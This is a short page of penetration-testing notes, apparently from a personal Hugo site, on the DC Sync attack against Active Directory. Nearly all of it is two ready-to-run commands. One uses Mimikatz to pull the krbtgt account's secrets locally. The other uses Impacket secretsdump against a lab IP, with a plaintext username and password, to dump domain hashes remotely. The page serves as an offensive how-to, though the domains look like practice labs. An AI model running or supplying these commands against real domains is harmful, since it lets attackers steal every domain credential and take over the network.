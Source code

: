 ```yaml
---
title: "DC Sync"
description: "DC Sync attack."
lead: "How to perform DC Sync, both locally and remotely."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "lateral_movement"
weight: 30
toc: true
---
```


## Locally

```powershell
# DCSync locally with mimikatz for specific user
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Remotely

```powershell
# Get NTDS.dit via Impacket secretsdump remotely
secretsdump.py -dc-ip 10.10.149.145 spookysec.local/backup:backup2517860@10.10.149.145
```
